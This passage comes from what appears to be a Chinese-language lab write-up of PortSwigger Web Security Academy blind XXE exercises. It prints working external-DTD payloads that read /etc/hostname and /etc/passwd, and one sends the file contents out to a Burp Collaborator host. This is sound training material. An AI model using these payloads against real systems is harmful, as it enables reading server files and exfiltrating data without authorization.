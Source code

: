 先用这个尝试一下。

发现不行，尝试用外部的dtd。

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % remote SYSTEM "http://192.168.1.50:80/1.dtd">
%remote;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

1.dtd：
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://am0p86ohlc5bl062kqoo7y93vu1kp9.burpcollaborator.net?p=%file;'>">
%init;
%send;
```

我发现这样会卡很久，就好像无法连接我的phpstudy。我的collaborator也收不到任何信息。

然后这个时候我才发现官方给了一个exploit。

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % remote SYSTEM "https://acde1f701f6b5c07808708840134003f.web-security-academy.net/exploit">
%remote;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

exploit:
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://am0p86ohlc5bl062kqoo7y93vu1kp9.burpcollaborator.net?p=%file;'>">
%init;
%send;
```

这下响应就很快了，立即得到了答案。

#### 6. Exploiting blind XXE to retrieve data via error messages

这道题目要求用DTD去触发错误信息，并且显示`/etc/passwd`的内容。

因为服务器会返回错误消息。

POC:

```xml-dtd
POST:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY % remote SYSTEM "https://acbf1f991e6da36180f84667013b0063.web-security-academy.net/exploit">
%remote;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

exploit:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#37; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```